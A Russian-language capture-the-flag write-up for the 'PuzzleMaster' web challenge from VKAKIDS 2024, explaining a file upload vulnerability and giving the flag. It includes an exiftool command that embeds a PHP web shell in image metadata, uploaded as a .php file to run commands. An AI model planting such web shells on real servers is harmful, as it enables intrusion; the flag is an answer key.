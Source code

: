 ## Собери пазл и загрузи секретное изображение!


| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKAKIDS 2024 | PuzzleMaster | Web | easy |


### Описание


> Автор: [Timur219]
>
Погрузитесь в увлекательный процесс сборки пазла! Выберите картинку, соберите её до последнего элемента и сохраните результат на сервере. Однако будьте внимательны: всё может быть не так просто, как кажется. Возможно, сервер окажется не готов к некоторым… сюрпризам.


### Решение
На сайте реализована функциональность загрузки изображений для сборки пазлов. Пользователи могут загружать свои изображения через форму, и они обрабатываются сервером для создания интерактивного пазла. При анализе функционала загрузки файлов выявлено, что сервер не проводит строгую валидацию загружаемых файлов, что может привести к уязвимости загрузки файлов (File Upload Vulnerability).

Создим файл PHP/JPG, который по сути является обычным изображением, но содержит полезную нагрузку PHP в своих метаданных.

Это можно сделать с помощью exiftool:
```
exiftool -Comment="<?php system($_GET["cmd"]); ?>" your_image.jpg -o payload_file.png
```
Как только файл будет создан, загрузим его на сервер, изменив filename на payload_file.php:
![alt text](image.png)

Используя загруженный файл, убедимся, что payload успешно выполняется. Это подтверждает получение удалённого доступа к серверу через веб-шелл:
![alt text](image-1.png)

Обнаруживаем файл flag и просматриваем его содержимое:
![alt text](image-2.png)

### Флаг

```
vka{15p1zzle_master_2024_super_challenge}
```


